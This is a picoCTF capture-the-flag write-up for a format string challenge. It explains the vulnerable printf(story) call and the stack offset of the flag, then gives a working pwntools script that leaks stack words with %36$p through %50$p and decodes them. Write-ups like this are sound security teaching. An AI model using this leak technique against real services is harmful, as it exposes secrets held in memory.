 ## 🛡️ Format String Exploit Write-up — *vuln (picoCTF)*

### 🔍 Challenge Overview

The provided binary is vulnerable to a **format string vulnerability** due to this line in the `vuln()` function:

```c
printf(story);
```

Since `story` is user-controlled and passed directly to `printf` without a format specifier, this allows an attacker to **read arbitrary values from the stack**.

Also, the `readflag()` function reads the flag from `flag.txt` into a local buffer (`char flag[64]`) on the stack. This means that the flag resides in memory at a predictable offset relative to the format string.

---

### 🔧 Vulnerability Breakdown

* Function `readflag()` stores the flag into a local stack buffer.
* `printf(story)` gives you full control over the format string, leading to a classic **format string vulnerability**.
* Stack can be traversed with `%p` to print pointer values.

---

### 🧪 Exploitation Strategy

1. **Leak stack values** starting from `%36$p`, which was found (via trial/error) to be the first word of the flag in little endian.

i have an file flag.txt in which i have written an flag for debug purpose `hello`

i fwe look it in radare2 we can see that is at :

![offset](./img/offset.png)

so we have this at offset 36


2. **Collect multiple stack values** (`%36$p` through `%50$p`) to reconstruct the full flag.
3. **Convert** leaked hex values to bytes (in little-endian order).
4. **Concatenate** the bytes and decode them as ASCII to get the full flag.

---

### 🧠 Exploit Script (Python w/ pwntools)

```python
from pwn import *

context.binary = './vuln'
context.log_level = 'info'

# Toggle between local and remote
Local = False
if Local:
    p = process('./vuln')
else:
    p = remote('saturn.picoctf.net', 49646)

# Leak stack values where the flag is stored
leak_fmt = b'%36$p.%37$p.%38$p.%39$p.%40$p.%41$p.%42$p.%43$p.%44$p.%45$p.%46$p.%47$p.%48$p.%49$p.%50$p'
p.sendlineafter(b">> ", leak_fmt)

# Extract leaked hex values
p.recvuntil(b"Here's a story - \n")
leaked = p.recvline().strip().split(b'.')

# Convert to ASCII flag
flag = b''
for val in leaked:
    if val.startswith(b'0x'):
        num = int(val, 16)
        flag += num.to_bytes((num.bit_length() + 7) // 8, 'little')

# Decode result
print(f"[+] Full ASCII Flag: {flag.strip(b'\x00').decode(errors='ignore')}")
```



### ✅ Output Example

![result](./img/result.png)

---

